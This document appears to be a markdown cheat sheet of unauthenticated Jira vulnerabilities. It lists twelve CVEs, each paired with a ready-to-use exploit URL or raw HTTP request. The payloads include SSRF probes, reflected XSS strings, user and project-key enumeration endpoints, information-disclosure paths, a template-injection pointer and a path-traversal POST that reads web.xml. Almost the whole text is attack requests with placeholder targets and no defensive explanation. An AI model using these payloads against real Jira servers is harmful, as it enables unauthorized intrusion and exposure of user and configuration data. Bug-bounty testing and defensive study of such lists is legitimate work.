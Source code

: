 # Unauthenticated Jira CVEs
1. CVE-2017-9506 (SSRF)
```
https://<JIRA_URL>/plugins/servlet/oauth/users/icon-uri?consumerUri=<SSRF_PAYLOAD>
```
2. CVE-2018-20824 (XSS)
```
https://<JIRA_URL>/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)
```
3. CVE-2019-8451 (SSRF)
```
https://<JIRA_URL>/plugins/servlet/gadgets/makeRequest?url=https://<HOST_NAME>:1337@example.com
```
4. CVE-2019-8449 (User Information Disclosure)
```
https://<JIRA_URL>/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
```
5. CVE-2019-8442 (Sensitive Information Disclosure)
```
https://<JIRA_URL>/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
```
6. CVE-2019-3403 (User Enumeration)
```
https://<JIRA_URL>/rest/api/2/user/picker?query=<USERNAME_HERE>
```
7. CVE-2020-14181 (User Enumeration)
```
https://<JIRA_URL>/secure/ViewUserHover.jspa?username=<USERNAME>
```
8. CVE-2020-14178 (Project Key Enumeration)
```
https://<JIRA_URL>/browse.<PROJECT_KEY>
```
9. CVE-2020-14179 (Information Disclosure)
```
https://<JIRA_URL>/secure/QueryComponent!Default.jspa
```
10. CVE-2019-11581 (Template Injection)
```
<JIRA_URL>/secure/ContactAdministrators!default.jspa

* Try the SSTI Payloads
```

11.   CVE-2019-3396 (Path Traversal)
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: {{Hostname}}
Accept: */*
Accept-Language: en-US,en;q=0.5 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Referer: {{Hostname}}
Content-Length: 168
Connection: close

{"contentId":"786457","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"../web.xml"}}}

*Try above request with the Jira target
```
12.   CVE-2019-3402 (XSS)
```
https://<JIRA_URL>/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=%3Cscript%3Ealert(1)%3C/script%3E&Search=Search
```

Reference:
- https://twitter.com/harshbothra